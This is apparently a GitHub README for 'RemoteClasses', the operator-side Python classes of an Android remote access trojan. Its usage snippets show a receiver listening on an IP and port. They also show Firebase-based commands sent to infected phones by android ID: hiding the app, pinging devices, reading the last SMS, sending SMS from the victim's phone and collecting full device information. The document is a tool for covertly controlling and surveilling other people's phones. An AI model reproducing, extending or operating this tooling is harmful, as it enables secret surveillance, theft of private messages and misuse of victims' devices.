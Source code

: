 # RemoteClasses
Android Rat Remote Classes

class Recv

Create An object :
    from Reciver import Recv
    App = Recv(IP = "127.0.0.1" , PORT = 8080)

Set The Throttle For Connection :
        App.set_throttle(ReqsPerMinute = 3) # Set a limit of 3 packets per minute

Get Update :
    while True:
        print(App.get_update())
    
class FireBase

Create An object :
    FM = FireBase()
    
Send HideOne Request:
    FM.__SendHideOne__(androidid) 
    
Send HideAll Request :
    FM.__SendHideAll__()
    
Send PingOne Request :
    FM.__SendPingOne__(androidid)

Send PingAll Request :
    FM.__SendPingAll__()

Send LastSms Request :
    FM.__SendLastSms__(androidid)
    
Send SendSms Request :
    FM.__SendSms__(androidid , Phone , Message)
    
Send FullInfo Request :
    FM.__SendFullInfo__(androidid)

  

    
